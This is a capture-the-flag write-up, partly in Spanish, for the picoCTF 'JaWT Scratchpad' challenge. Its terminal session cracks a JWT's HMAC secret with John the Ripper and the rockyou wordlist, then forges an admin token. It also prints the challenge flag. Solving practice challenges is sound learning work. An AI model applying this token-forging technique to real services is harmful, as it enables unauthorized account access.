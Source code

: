 # JaWT Scratchpad

## Objetivo
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/63090/` or http://jupiter.challenges.picoctf.org:63090
## Solución
```bash
┌──(kali㉿kali)-[~]
└─$ nano hash

┌──(kali㉿kali)-[~]
└─$ cat hash 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGF2aWQifQ.A3oybMNHdvAm9h1IeP6tjw_FdG7CvmgIWn4YZ4tWZaE

┌──(kali㉿kali)-[~]
└─$ ls /usr/share/wordlists
amass  dirbuster      fern-wifi  legion      nmap.lst        sqlmap.txt  wifite.txt
dirb   fasttrack.txt  john.lst   metasploit  rockyou.txt.gz  wfuzz

┌──(kali㉿kali)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz 
[sudo] password for kali: 

┌──(kali㉿kali)-[~]
└─$ ls /usr/share/wordlists/rockyou.txt             
/usr/share/wordlists/rockyou.txt

┌──(kali㉿kali)-[~]
└─$ ls /usr/share/wordlists/           
amass  dirbuster      fern-wifi  legion      nmap.lst     sqlmap.txt  wifite.txt
dirb   fasttrack.txt  john.lst   metasploit  rockyou.txt  wfuzz

┌──(kali㉿kali)-[~]
└─$ head /usr/share/wordlists/rockyou.txt
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123

┌──(kali㉿kali)-[~]
└─$ john                                 
Created directory: /home/kali/.john
John the Ripper 1.9.0-jumbo-1+bleeding-aec1328d6c 2021-11-02 10:45:52 +0100 OMP [linux-gnu 64-bit x86_64 SSE2 AC]
Copyright (c) 1996-2021 by Solar Designer and others
Homepage: https://www.openwall.com/john/

Usage: john [OPTIONS] [PASSWORD-FILES]

Use --help to list all available options.                                                                                        
┌──(kali㉿kali)-[~]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:04 DONE (2023-10-08 20:29) 0.2293g/s 1696Kp/s 1696Kc/s 1696KC/s iloveqmc..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s

picoCTF{jawt_was_just_what_you_thought_f859ab2f}
```
## Notas adicionales
Se utilizo cookie editor para ver las cookies que se generan cuando se ingresa un usuario, luego se llevó a jwt para decodificar dicha cookie, para luego en kali usar el comando john con la cookie que teníamos y aplicar una lista de palabras de contraseñas comunes, dándonos ilovepico, donde llevamos esto a jwt y lo cambiamos por dicha contraseña, solo cambiamos la cookie y se nos proporciona la llave.
## Referencias
https://es.wikipedia.org/wiki/JSON
https://jwt.io/introduction
https://github.com/openwall/john